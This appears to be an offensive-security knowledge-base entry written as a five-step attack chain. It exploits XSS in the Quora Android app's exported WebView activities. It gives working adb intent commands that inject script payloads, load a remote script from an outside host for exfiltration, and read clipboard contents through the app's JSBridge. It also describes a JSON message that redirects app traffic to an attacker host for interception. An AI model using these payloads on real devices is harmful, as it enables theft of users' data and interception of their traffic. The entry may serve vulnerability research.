

---
tags:
  - xss
  - android
  - webview
  - jsbridge
  - rce
type: attack_chain
tools:
  - '[[tools/ADB]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/adb-shell]]'
  - '[[commands/am-start-actionbar-xss-alert]]'
  - '[[commands/am-start-actionbar-external-script]]'
  - '[[commands/am-start-content-external-script]]'
  - '[[commands/am-start-modal-external-script]]'
  - '[[commands/am-start-modal-jsbridge-clipboard]]'
platforms:
  - Android
complexity: medium
procedures:
  - '[[procedures/Launch-ActionBarContentActivity-with-Malicious-HTML-via-ADB]]'
  - '[[procedures/Launch-Multiple-Quora-Activities-with-External-Script-Source]]'
  - '[[procedures/Access-Quora-JSBridge-to-Read-Clipboard-Data-via-XSS]]'
  - '[[procedures/Launch-Quora-Activity-from-Another-Android-App-Using-Intent]]'
  - '[[procedures/Use-JSBridge-to-Switch-Instance-and-Redirect-to-Attacker-Host]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
description: >-
  Multi-stage attack exploiting XSS in Quora Android app's exported activities
  to execute arbitrary JavaScript, access JSBridge for data exfiltration, and
  potentially achieve RCE on older Android versions.
skill_level: intermediate
impact_level: high
id: 1e36a1d1-2dad-4532-b30e-c637ae5851f8
created_at: '2025-12-13T23:52:44.077Z'
updated_at: '2025-12-13T23:52:44.077Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# XSS in Quora Android App via Exported Activities Leading to JSBridge Access and RCE

Multi-stage attack chain demonstrating exploitation of XSS in the Quora Android app's exported activities (ActionBarContentActivity, ContentActivity, ModalContentActivity) by injecting unsanitized HTML payloads via intents, leading to JavaScript execution in the www.quora.com context, JSBridge API access for data theft, and potential remote code execution on Android <=4.2.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ADB]]

### Target Environment

- Android device with Quora app installed (vulnerable versions)
- ADB access to device (USB debugging enabled)
- For step 4: Another Android app capable of launching intents

### Initial Access Requirements

- Physical or ADB access to the target Android device
- No network credentials needed; local app exploitation
- Quora app must have exported activities (default in vulnerable builds)

## Detailed Attack Procedures

### Step 1: Launch Exported Activity with Basic XSS Payload
procedure: [[procedures/Launch-ActionBarContentActivity-with-Malicious-HTML-via-ADB]]

**Objective**: Trigger basic XSS in ActionBarContentActivity by injecting HTML with JavaScript alert to confirm execution in Quora's WebView context.

**Instructions**: Use [[commands/adb-shell]] to access the device shell, then execute [[commands/am-start-actionbar-xss-alert]] to launch the activity with a malicious HTML payload.

```bash
adb shell am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
```

**Expected Output**: The activity launches, WebView loads the payload, and an alert box displays "123" confirming JavaScript execution.

**Success Indicators**:
- Alert popup appears on device
- No crashes; activity renders without errors

### Step 2: Execute Remote Scripts Across Multiple Activities
procedure: [[procedures/Launch-Multiple-Quora-Activities-with-External-Script-Source]]

**Objective**: Demonstrate persistent XSS by loading external JavaScript from an attacker-controlled server into multiple exported activities.

**Instructions**: From ADB shell, launch each activity using the respective commands: [[commands/am-start-actionbar-external-script]], [[commands/am-start-content-external-script]], and [[commands/am-start-modal-external-script]]. Ensure the external script at //blackfan.ru performs desired actions (e.g., data exfiltration).

```bash
am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html '<script src=//blackfan.ru></script>'
am start -n com.quora.android/com.quora.android.ContentActivity -e url 'http://test/test' -e html '<script src=//blackfan.ru></script>'
am start -n com.quora.android/com.quora.android.ModalContentActivity -e url 'http://test/test' -e html '<script src=//blackfan.ru></script>'
```

**Expected Output**: Each activity launches and fetches/executes the remote script, potentially logging actions or exfiltrating data to the attacker's server.

**Success Indicators**:
- Network traffic to blackfan.ru observed
- Script effects (e.g., console logs or beacons) visible in app

### Step 3: Exfiltrate Sensitive Data via JSBridge
procedure: [[procedures/Access-Quora-JSBridge-to-Read-Clipboard-Data-via-XSS]]

**Objective**: Leverage XSS to access Quora's JSBridge API and steal clipboard data, demonstrating privilege escalation within the app.

**Instructions**: Launch ModalContentActivity with a payload calling the JSBridge method using [[commands/am-start-modal-jsbridge-clipboard]].

```bash
am start -n com.quora.android/com.quora.android.ModalContentActivity -e url 'http://test/test' -e html '<script>alert(QuoraAndroid.getClipboardData());</script>'
```

**Expected Output**: Alert displays the current clipboard contents, confirming JSBridge access.

**Success Indicators**:
- Clipboard data alerted
- No permission errors from JSBridge

### Step 4: Exploit from Malicious App Context
procedure: [[procedures/Launch-Quora-Activity-from-Another-Android-App-Using-Intent]]

**Objective**: Simulate real-world attack by launching the vulnerable activity from a malicious third-party app without ADB.

**Instructions**: In a custom Android app, create an Intent targeting ActionBarContentActivity, add extras for url and html, then call startActivity.

**Expected Output**: Quora activity launches with XSS payload executed, identical to ADB method.

**Success Indicators**:
- XSS alert triggers from within the malicious app
- Seamless intent resolution without user prompts

### Step 5: Redirect Traffic via JSBridge Manipulation
procedure: [[procedures/Use-JSBridge-to-Switch-Instance-and-Redirect-to-Attacker-Host]]

**Objective**: Use XSS to invoke JSBridge sendMessage for man-in-the-middle by switching to an attacker-controlled host.

**Instructions**: Inject a script via any exported activity that calls QuoraAndroid.sendMessage with JSON: {"host": "evilhost.com", "instance_name": "evilhost", "scheme": "https"}.

**Expected Output**: App instance switches, redirecting traffic to evilhost.com for interception.

**Success Indicators**:
- Network requests route to attacker host
- App UI reflects instance change

## Attack Chain Summary

### Key Achievements

1. Confirmed XSS in three exported Quora activities via unsanitized 'html' intent extra
2. Accessed JSBridge for clipboard exfiltration and host redirection
3. Demonstrated potential RCE on Android <=4.2 via addJavascriptInterface in WebView

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
